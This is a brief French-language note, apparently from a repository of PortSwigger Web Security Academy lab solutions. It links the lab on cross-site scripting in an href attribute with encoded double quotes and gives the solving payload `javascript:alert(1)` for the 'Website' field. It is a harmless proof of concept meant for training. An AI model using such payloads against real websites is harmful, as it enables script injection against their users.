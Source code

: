 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded

## Payload

Dans le champ "Website" : `javascript:alert(1)`
